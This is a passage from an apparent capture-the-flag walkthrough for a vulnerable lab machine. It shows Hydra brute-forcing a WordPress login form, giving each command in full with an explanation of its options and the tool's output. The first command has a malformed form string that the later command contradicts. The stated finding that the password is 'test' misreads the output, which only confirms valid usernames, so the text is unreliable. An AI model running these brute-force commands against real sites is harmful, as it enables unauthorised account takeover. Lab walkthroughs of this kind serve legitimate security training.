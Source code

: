 Here, you can see the **username** (`log`) and **password** (`pwd`) fields that will be used for the brute-force attack.

### Brute-Forcing Login with Hydra

Now that you know the form fields for **username** and **password**, you can use **Hydra** to perform a brute-force attack to crack the WordPress login.

**Hydra Command for HTTP POST Login Brute-Force**:

```
hydra -t 64 -L fsocity.dic -p test 192.168.1.5 http-form-post "/wp-login:log=^USER^&PASS^:Invalid"
```

Here's a breakdown of the options:

- `-t 64`: Specifies the number of threads to use for the brute-force attack.
- `-L fsocity.dic`: This option tells Hydra to use the **fsocity.dic** wordlist for the usernames.
- `-p test`: This sets a default password to "test" for each username.
- `http-form-post`: Indicates that the request method is a POST form submission.
- `/wp-login:log=^USER^&PASS^:Invalid`: Specifies the form action path, where `log=^USER^` substitutes each username from the wordlist, and `PASS^` substitutes each password (in this case, it's the test password).

The `Invalid` part specifies what to look for in the response to determine a failed login attempt.



```
root@neo ~ [255]# hydra -L fsocity_cleaned.dic -p test 192.168.1.5 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^:Invalid username"

Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-01-23 22:47:52
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 16 tasks per 1 server, overall 16 tasks, 11452 login tries (l:11452/p:1), ~716 tries per task
[DATA] attacking http-post-form://192.168.1.5:80/wp-login.php:log=^USER^&pwd=^PASS^:Invalid username
[STATUS] 3391.00 tries/min, 3391 tries in 00:01h, 8061 to do in 00:03h, 16 active
[80][http-post-form] host: 192.168.1.5   login: ELLIOT   password: test
[80][http-post-form] host: 192.168.1.5   login: Elliot   password: test
[STATUS] 3204.50 tries/min, 6409 tries in 00:02h, 5043 to do in 00:02h, 16 active
[80][http-post-form] host: 192.168.1.5   login: elliot   password: test
[STATUS] 3191.67 tries/min, 9575 tries in 00:03h, 1877 to do in 00:01h, 16 active
^CThe session file ./hydra.restore was written. Type "hydra -R" to resume session.
```

After running the command, Hydra identified the valid username as **Elliot** with the password **test**.

### Password Cracking with WPScan
